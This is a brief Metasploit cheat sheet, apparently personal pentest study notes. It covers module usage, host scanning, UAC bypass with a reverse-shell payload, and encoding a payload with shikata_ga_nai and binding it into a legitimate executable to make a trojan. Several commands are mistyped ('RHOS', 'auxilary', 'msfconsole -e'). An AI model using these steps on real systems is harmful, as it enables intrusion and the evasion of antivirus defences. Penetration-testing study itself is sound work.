 * https://www.offensive-security.com/metasploit-unleashed/Pivoting/
* https://www.offensive-security.com/metasploit-unleashed/Portfwd/
* https://www.offensive-security.com/metasploit-unleashed/proxytunnels/

General Commands:
```
show auxilary
search snmp
use snmp_enum
info
show options
set RHOS ip
run
```
```
setg RHOST ip (global set)
```

Hosts:
```
db_nmap ip-range --top-ports 20 (to populate database)
```

Search Services:
```
services -p 443 (search all machines with 443 open)
```

Modifying exploit:
```
~/.msf4/modules/exploits/windows/misc/vulnserver.rb
```

Post exploitation
- exploit/windows/local/bypassuac
- set payload to reverse-shell  (so that a new session will be created)
- migrate to a system privileged process


Encode
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -o exe.exe
```

Binding
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -x goodexe.exe -o bound.exe
```
